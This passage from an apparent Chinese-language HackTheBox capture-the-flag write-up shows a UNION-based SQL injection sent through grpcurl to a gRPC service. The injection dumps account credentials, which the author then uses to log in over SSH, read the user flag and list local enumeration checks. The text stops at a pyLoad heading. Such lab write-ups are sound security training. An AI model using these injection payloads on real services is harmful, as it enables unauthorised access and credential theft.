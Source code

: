 `limit 0,1` 即admin。本来想写个脚本枚举id，不过试了下似乎一共就2个用户。

```bash
└─$ ./grpcurl -plaintext -H 'token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiYWRtaW4iLCJleHAiOjE2ODQ5OTEzMDl9.OQuH_s45wDpBp6YaNlrwkX4p1CgSdQoSHSgaNt8ehzg' -d @ 10.10.11.214:50051 SimpleApp/getInfo <<EOM
{"id":"1 union SELECT username ||', '|| password FROM accounts limit 1,1"}
EOM
{
  "message": "sau, HereIsYourPassWord1431"
}
```


## Initial Access

用上面从数据库拿的账号密码登陆ssh成功：
```bash
└─$ ssh sau@10.10.11.214  
The authenticity of host '10.10.11.214 (10.10.11.214)' can't be established.
ED25519 key fingerprint is SHA256:63yHg6metJY5dfzHxDVLi4Zpucku6SuRziVLenmSmZg.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:31: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes 
Warning: Permanently added '10.10.11.214' (ED25519) to the list of known hosts.
sau@10.10.11.214's password: 
Last login: Thu May 25 03:06:26 2023 from 10.xx.xx.xx
```


## flag: user

```bash
sau@pc:~$ pwd
/home/sau
sau@pc:~$ ls
snap  user.txt
sau@pc:~$ cat user.txt 
4eef…………0835
```


## 探索

- 无可执行sudo
- crontab无发现
- SUID无发现
- 家目录无特殊隐藏文件
- hosts文件无发现
- 看主机IP，无多个网卡
- 查看本地开放端口。注意到有53/8000/9666

### 本地端口8000：pyLoad
